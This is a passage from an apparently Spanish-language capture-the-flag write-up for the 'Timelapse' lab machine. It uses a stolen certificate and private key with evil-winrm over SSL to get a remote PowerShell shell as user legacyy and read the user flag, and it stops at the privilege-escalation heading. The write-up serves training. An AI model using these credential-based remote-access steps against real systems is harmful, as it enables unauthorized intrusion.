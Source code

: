 ```
ls
certificate.pem  legacyy_dev_auth.pfx  privkey
```

Tenemos en nuestro poder la clave privada y el certificado, esto nos sirve pues al tenerlos podemos autenticarnos en la máquina utilizando `evil-winrm`:

```
Usage: evil-winrm -i IP -u USER [-s SCRIPTS_PATH] [-e EXES_PATH] [-P PORT] [-p PASS] [-H HASH] [-U URL] [-S] [-c PUBLIC_KEY_PATH ] [-k PRIVATE_KEY_PATH ] [-r REALM] [--spn SPN_PREFIX] [-l]
    -S, --ssl                        Enable ssl
    -c, --pub-key PUBLIC_KEY_PATH    Local path to public key certificate
    -k, --priv-key PRIVATE_KEY_PATH  Local path to private key certificate

```

Haciendo uso de estas flags podemos entrar, sin embargo, hay un detalle, dentro de la captura de nmap podemos observar que el puerto 5986 está abierto pero por ssl:


```
5986/tcp  open  ssl/http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
```
Por lo tanto, tenemos que utilizar la flag **-S** para realizar la conexión por ssl:

```
evil-winrm -i 10.10.11.152 -c certificate.pem -k privkey -S

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Warning: SSL enabled

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\legacyy\Documents> whoami
timelapse\legacyy
```

Hemos ingresado correctamente a la máquina, ahora buscamos la flag del usuario en su directorio personal:

```
*Evil-WinRM* PS C:\Users\legacyy\Desktop> type user.txt
f0077300e68b7b8434828
```
¡Bien! ahora solo falta encontrar la forma de convertirnos en administradores.


## Escalada de privilegios

